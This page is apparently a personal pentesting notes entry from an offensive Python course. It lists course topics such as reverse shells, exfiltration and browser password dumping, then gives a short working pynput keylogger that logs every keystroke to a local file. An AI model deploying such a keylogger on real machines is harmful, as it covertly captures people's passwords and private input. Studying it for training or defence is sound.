

repository: amandaguglieri/hackinglife · page: python/python-keylogger/index.html · generator: mkdocs

---
title: Simple keylogger in python
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - keylogger
---

# Simple keylogger in python

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall.md).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2

#Ref: https://pythonhosted.org/pynput/keyboard.html#monitoring-the-keyboard

from pynput.keyboard import Key, Listener

def on_press(key):
    fp=open("keylogs.txt","a") #create a text file and append the key in it
    print(key)
    fp.write(str(key)+"\n")
    fp.close()
    
with Listener(on_press=on_press) as listener: # if key is pressed, call on_press function
    listener.join()

```
